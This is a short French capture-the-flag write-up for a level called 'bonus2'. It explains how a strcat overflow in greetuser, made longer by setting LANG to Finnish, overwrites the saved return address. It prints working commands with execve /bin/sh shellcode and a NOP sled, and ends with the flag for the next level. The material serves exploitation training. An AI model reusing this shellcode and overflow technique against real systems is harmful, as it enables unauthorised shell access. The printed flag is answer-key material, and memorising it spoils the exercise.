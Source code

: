 ## GET Flag

Ici, la faille reside dans le fait que la fonction greetuser effectue la concatenation d'un buffer de 72 caractères dans un buffer de 72 caractères qui n'est pas vide (en l'occurence il contient une salutation).

Cependant, bien qu'il soit possible d'écrire sur la source de l'EIP avec cette méthode, les 6 caractères de "Hello " ne permettent pas d'aller suffisament loin dans la stack. Il n'est ainsi possible d'écrire que sur les 2 derniers octets de l'EIP.

Par ailleurs, en finlandais, la salutation n'est pas "Hello", mais "Hyvää päivää" soit 19 octets (unicode) au lieu de 7. Il est donc possible d'écrire sur l'EIP en changeant la variable d'environnement `LANG`. Cette nouvelle EIP sera celle d'un shellcode stocké au préalable dans l'environnement.

```
export LANG=fi
export SHELLCODE=$(python -c 'print 100*"\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"')
./bonus2 $(python -c 'print 40*"A"') $(python -c 'print 18*"B" + "\xad\xf8\xff\xbf"')
```

### Flag

```
bonus3
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

